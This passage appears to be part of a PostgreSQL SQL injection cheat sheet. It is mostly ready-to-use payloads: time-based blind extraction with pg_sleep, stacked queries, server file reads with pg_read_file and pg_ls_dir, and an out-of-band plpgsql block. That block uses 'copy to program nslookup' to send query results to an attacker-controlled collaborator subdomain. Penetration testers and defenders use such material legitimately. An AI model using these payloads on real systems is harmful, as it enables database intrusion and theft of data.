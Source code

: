 ### Columns Dump Time Based

```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```

```sql
AND 'RANDSTR'||PG_SLEEP(10)='RANDSTR'
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Out of Band

Out-of-band SQL injections in PostgreSQL relies on the use of functions that can interact with the file system or network, such as `COPY`, `lo_export`, or functions from extensions that can perform network actions. The idea is to exploit the database to send data elsewhere, which the attacker can monitor and intercept.

```sql
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

## PostgreSQL Stacked Query

Use a semi-colon "`;`" to add another query

```sql
SELECT 1;CREATE TABLE NOTSOSECURE (DATA VARCHAR(200));--
```

## PostgreSQL File Manipulation

### PostgreSQL File Read

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [0fdc8495bff02684142a44ab3bc5b18a8ca1863a](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

* Using `pg_read_file`, `pg_ls_dir`

    ```sql
    select pg_ls_dir('./');
    select pg_read_file('PG_VERSION', 0, 200);
    ```
